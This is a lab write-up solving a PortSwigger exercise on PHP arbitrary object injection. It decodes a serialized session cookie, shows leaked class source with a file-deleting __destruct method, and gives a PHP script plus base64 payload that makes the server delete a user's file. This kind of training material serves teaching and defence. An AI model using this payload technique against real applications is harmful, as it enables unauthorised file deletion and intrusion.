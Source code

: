 # Arbitrary object injection in PHP | Jan 10, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/deserialization/exploiting/lab-deserialization-arbitrary-object-injection-in-php), you'll learn: Arbitrary object injection in PHP! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab uses a serialization-based session mechanism and is vulnerable to arbitrary object injection as a result. To solve the lab, create and inject a malicious serialized object to delete the `morale.txt` file from Carlos's home directory. You will need to obtain source code access to solve this lab.

You can log in to your own account using the following credentials: `wiener:peter`

## Exploitation

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110065946.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110065958.png)

**Burp Suite HTTP history:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110070015.png)

When we successfully logged in, it'll set a new session cookie.

**URL decoded:**
```
Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ6eTlwcGwxMXF0c3FpZWR6N2h3bWZiamR3eWdlcDUxZiI7fQ==
```

As you can see, the session cookie's last 2 characters are `=`, which is base64's padding character.

**Let's base64 decode that:**
```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# echo 'Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ6eTlwcGwxMXF0c3FpZWR6N2h3bWZiamR3eWdlcDUxZiI7fQ==' | base64 -d
O:4:"User":2:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"zy9ppl11qtsqiedz7hwmfbjdwygep51f";}
```

**Also, in the Burp Suite's site map, I found there is a PHP file called `CustomTemplate.php`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110070752.png)

**Let's send that request to Burp Suite Repeater:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110070822.png)

In here, we can try to read the source code:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110070843.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110070855.png)

The `~` worked!

**`/libs/CustomTemplate.php`:**
```php
<?php

class CustomTemplate {
    private $template_file_path;
    private $lock_file_path;

    public function __construct($template_file_path) {
        $this->template_file_path = $template_file_path;
        $this->lock_file_path = $template_file_path . ".lock";
    }

    private function isTemplateLocked() {
        return file_exists($this->lock_file_path);
    }

    public function getTemplate() {
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```

**The PHP comment looks sussy:**
```php
    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}
```

In here, we see the `CustomTemplate` class has a magic method called `__destruct`. This method will the `unlink()` method on the `local_file_path` attribute, which will then delete the file on `$template_file_path.lock`.

But how can we abuse that?

**The `__destruct` magic method will be automatically called.**

**That being said, we can add the `CustomTemplate` object to the serialized PHP object, which will then delete `morale.txt` file from Carlos's home directory!**
```php
<?php
    class CustomTemplate
    {
        function __construct()
        {
            $this->lock_file_path = "/home/carlos/morale.txt";
        }
    }

    $CustomTemplate = new CustomTemplate;
    $serializedCustomTemplate = serialize($CustomTemplate);

    echo "[+] Serialized: \n";
    var_dump($serializedCustomTemplate);

    echo "[+] Base64 encoded: \n" . base64_encode($serializedCustomTemplate);
?>
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Insecure-Deserialization]
└─# php serialization.php
[+] Serialized: 
string(79) "O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}"
[+] Base64 encoded: 
TzoxNDoiQ3VzdG9tVGVtcGxhdGUiOjE6e3M6MTQ6ImxvY2tfZmlsZV9wYXRoIjtzOjIzOiIvaG9tZS9jYXJsb3MvbW9yYWxlLnR4dCI7fQ==
```

**Now, we can copy the base64 encoded string, and paste it to the session cookie:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110072858.png)

**Then refresh the page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Insecure-Deserialization/Deserial-4/images/Pasted%20image%2020230110072914.png)

Nice!

# What we've learned:

1. Arbitrary object injection in PHP